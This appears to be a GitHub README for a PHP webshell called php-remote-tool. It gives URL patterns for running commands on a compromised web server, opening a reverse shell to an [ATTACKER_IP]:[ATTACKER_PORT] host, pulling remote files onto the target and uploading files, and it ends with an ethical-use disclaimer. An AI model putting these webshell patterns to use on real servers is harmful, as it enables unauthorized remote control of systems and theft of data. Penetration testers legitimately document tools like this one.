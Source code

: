 # PHP Remote Tool
Author: Yavuz Sahbaz
GitHub: https://github.com/YavuzSahbaz

## Overview
php-remote-tool is a PHP webshell script that enables remote command execution, reverse shell initiation, file downloading, and file uploading on a target system running a web server with PHP support. This script is designed for use during penetration testing exercises or system administration tasks where you have permission to perform these actions on the target system. Unauthorized use may be illegal and unethical.

## Usage
Upload the php-remote-tool script to the target web server.
Access the script through a web browser or a tool like curl or wget.
Execute commands
To execute a command on the target system, use the following URL format:

```
http://target.com/path/cmd.php?cmd=[COMMAND]

Replace [COMMAND] with the command you want to execute on the target system.
```
## Initiate reverse shell
To initiate a reverse shell to your system, use the following URL format:

```

http://target.com/path/cmd.php?revshell=[ATTACKER_IP]:[ATTACKER_PORT]

Replace [ATTACKER_IP] with your IP address and [ATTACKER_PORT] with the port you want to use for the reverse shell connection. 
Make sure to set up a listener on your system to receive the connection.
```
## Download a file
To download a file from a URL and save it on the target system, use the following URL format:

```

http://target.com/path/cmd.php?download=[URL]&filename=[FILENAME]

Replace [URL] with the URL of the file you want to download, 
and [FILENAME] with the desired name for the saved file on the target system.
```
## Upload a file
To upload a file to the target system, use the following URL format:
```

http://target.com/path/cmd.php?upload&filepath=[FILE_PATH]

Replace [FILE_PATH] with the desired file path for the uploaded file on the target system. 
Use an HTTP POST request to send the file with the Content-Type 
header set to multipart/form-data and the file parameter named "file".
```
## Disclaimer
This PHP webshell script is intended for educational purposes and ethical use only. Unauthorized use of this script may be illegal and unethical. Always make sure you have permission to perform any action on the target system and follow ethical hacking principles and guidelines. The author and any contributors are not responsible for any damage caused by unauthorized use of this script.
